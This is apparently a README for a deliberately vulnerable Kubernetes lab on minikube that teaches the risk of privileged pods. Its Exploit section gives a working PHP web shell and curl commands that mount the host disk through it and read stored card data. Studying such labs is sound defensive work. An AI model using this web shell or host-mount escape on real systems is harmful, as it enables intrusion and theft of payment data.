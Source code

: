 # Privileged Pod

## Context
Privileged pod (AKA `privileged`) is one of the Security Context flags for a Pod or Container.
Privileged containers can do nearly everything a process on the host can do, and provide no isolation from other workloads. This kind of a setting should be avoided where possible.

## Setup
1. Install and run [minikube](https://kubernetes.io/docs/setup/learning-environment/minikube/#installation).
2. Cleanup environment if needed: `minikube delete`.
3. Run `./build.sh`
4. `minikube dashboard` to get ingress IP address (`192.168.99.100` in my case). 

## Env components
### Web
Vulnerable application with RCE and privileged access.

* Deployment - `k8s/PrivilegedPod/web/deployment.yaml`

    This `k8s` deployment contains the unsecured instruction `privileged: true`
* Service - `k8s/PrivilegedPod/web/service.yaml`

### Payment
Payments processing microservice. Completely protected ;).

* Deployment - `k8s/PrivilegedPod/payment/deployment.yaml`
* Service - `k8s/PrivilegedPod/payment/service.yaml`

## Exploit

Your target is to steal users credit cards. Cards data is located in `payment` microservice (which has no security issues). But `web` microservice has an RCE vulnerability (and has `privileged`). This allows us to access any data in the cluster, including cards data.

1. Upload file `shell.php`:
    ```php
    <?php
    echo '<pre>';
    var_dump(system($_GET['cmd']));
    echo '</pre>';
    ```
2. Create temporary directory for host file system `curl http://192.168.99.100/upload/fe84f884761716f9e641479e992c4c6f.php?cmd=mkdir%20/tmp/host`
3. Mount host's file system (`sda1` in my case but could vary) `curl http://192.168.99.100/upload/fe84f884761716f9e641479e992c4c6f.php?cmd=mount%20/dev/sda1%20/tmp/host`
4. Find file `cards.json` in hosts filesystem `curl http://192.168.99.100/upload/fe84f884761716f9e641479e992c4c6f.php?cmd=find%20/tmp/host%20-name%20"cards.json"`
5. Get stored cards `curl http://192.168.99.100/upload/fe84f884761716f9e641479e992c4c6f.php?cmd=cat%20<👆>`
